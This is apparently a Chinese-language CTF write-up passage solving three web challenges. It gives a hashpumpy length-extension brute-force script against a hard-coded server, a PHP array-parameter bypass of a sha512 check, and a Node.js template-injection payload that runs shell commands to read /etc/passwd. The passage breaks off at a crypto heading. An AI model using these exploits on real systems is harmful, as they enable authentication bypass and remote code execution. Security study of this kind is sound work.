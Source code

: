 ### penetrate in

此题考点为哈希长度扩展攻击，可以利用hashpumpy来解决。其中secret的长度未知，需要暴力破解一下。

脚本：

``` python
#!/usr/bin/python 
#coding=utf-8

import hashpumpy
import requests

url = "http://202.121.178.201:8081/index.php"
data = {"username" : "admin", "password" : ""}
headers = {"Cookie" : ""}

for i in range(5, 100):
    print "secret length: "  + str(i)
    res = hashpumpy.hashpump("be9fcfa876db5f4184e1635ce6561de7", "|admin|admin", "a", i)
    headers["Cookie"] = "hmac=" + res[0]
    data["password"] = res[1][7:]
    print headers
    print data

    r = requests.post(url, data=data, headers=headers)
    if 'flag' in r.text:
        print r.text
        exit()
```

### Shatter Sha512!

此题hash结果的相等判断处使用的是严格的`===`，这就想到PHP的一个trick，hash函数不能处理`Array`类型的变量，首先会把`Array`类型的变量转换为常量字符串`"Array"`。

将变量设置为数组类型即可绕过：

	http://addr/?x[]=1&y[]=2

### Super Security Blog

此题采用的node.js的express框架为后端，考虑存在SSTI漏洞，在post新文章时构造内容`{{7*7}}`，可以得到输出49，说明存在漏洞。

构造post文章的内容为

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```
验证可以执行shell命令，进而拿到flag。

## CRYPTO

### AES-server
